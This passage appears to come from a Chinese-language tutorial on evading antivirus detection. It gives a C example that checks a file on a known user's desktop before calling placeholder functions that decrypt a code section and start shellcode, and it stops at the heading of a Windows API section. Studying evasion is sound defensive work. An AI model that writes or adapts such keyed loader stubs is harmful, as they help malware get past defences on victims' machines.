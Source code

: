 

## The “Knowing your enemy” method

如果某些人知道了一些目标机器上的一些信息，绕过杀软会变得相当的容易。把代码解密机制链接到你知道目标计算机上的一些信息（或者工作组）。

### 例子1：依赖于本地用户名的操作

如果系统上某人的用户名已知，则可以根据该用户名请求操作。例如，我们可以尝试在用户帐户文件中写入和读取这些文件。在下面的代码中，我们在用户桌面上创建一个文件，我们在其中编写一些字符，然后只有打开文件并读取字符，我们才能启动解密方案。

```c
#define FILE_PATH "C:\\Users\\bob\\Desktop\\tmp.file"
int main()
{
    HANDLE file;
    DWORD tmp;
    LPCVOID buff = "1234";
    char outputbuff[5] = {0};
    file = CreateFile(FILE_PATH, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS,
                      FILE_ATTRIBUTE_NORMAL, 0);
    if (WriteFile(file, buff, strlen((const char *)buff), &tmp, NULL))
    {
        CloseHandle(file);
        file = CreateFile(FILE_PATH,
                          GENERIC_READ,
                          FILE_SHARE_READ,
                          NULL,
                          OPEN_EXISTING, // existing file only
                          FILE_ATTRIBUTE_NORMAL,
                          NULL);
        if (ReadFile(file, outputbuff, 4, &tmp, NULL))
        {
            if (strncmp(buff, outputbuff, 4) == 0)
            {
                decryptCodeSection();
                startShellCode();
            }
        }
        CloseHandle(file);
    }
    DeleteFile(FILE_PATH);
    return 0;
}
```



## The “WTF is that?” method

这节是关于win api的东西

### 例子1：What the fuck is NUMA?
